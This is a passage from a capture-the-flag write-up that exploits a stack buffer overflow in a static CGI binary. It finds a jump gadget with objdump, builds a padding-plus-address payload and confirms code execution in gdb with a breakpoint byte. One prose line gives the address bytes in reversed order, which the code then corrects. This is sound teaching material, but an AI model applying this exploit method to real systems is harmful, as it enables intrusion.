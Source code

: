I compiled the binary with `-static`, so there should be lots of options:

```
$ objdump -D auth.cgi | grep 'ff [ed]4'
  4127c9:       41 ff d4                call   *%r12
  439981:       41 ff d4                call   *%r12
  4476d9:       41 ff d4                call   *%r12
  460d77:       4c 8d 25 ff d4 02 00    lea    0x2d4ff(%rip),%r12        # 48e27d <_dl_out_of_memory+0x1d>
  478436:       41 ff d4                call   *%r12
  47910f:       ff e4                   jmp    *%rsp
[...]
```

I chose the first, which is actually at 0x4127ca since we want to skip over the 0x41. If we encode that in 64-bit little endian, it'll look like `"\x41\x27\xca\x00\x00\x00\x00\x00"` (since it's padded to 8 full bytes then the bytes are reversed - if you find endianness confusing, don't worry - I've been doing this forever and still managed to do it backwards while writing this blog!).

If we send the following payload:

```
<A>*168 + <address of call rsp> + <something...>
```

The `call rsp` will start executing the code found at `<something...>`! This won't work on anything even remotely modern or hardened, but we'll talk about that in part 2 when I disable the executable stack!

The assembly instruction `cc` means "debug breakpoint" or "trap" - importantly, we can immediately tell that it executed. So let's send this:

```
<A>*168 + <address of call rsp> + cc
```

Which looks like this (I'm breaking up the different parts for clarify):

```
3.1.3 :006 > File.write('/tmp/poc.bin', ('A'*168)+("\xca\x27\x41\x00\x00\x00\x00\x00")+("\xcc"))
 => 177
```

Then run it in a debugger, updating the `CONTENT_LENGTH` every time:

```
$ CONTENT_LENGTH=177 gdb -q ./auth.cgi
Reading symbols from ./auth.cgi...
(gdb) run < /tmp/poc.bin 
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in/challenge/src/auth.cgi < /tmp/poc.bin
Content-Type: text/plain


Program received signal SIGTRAP, Trace/breakpoint trap.
0x00007fffffffd921 in ?? ()
```
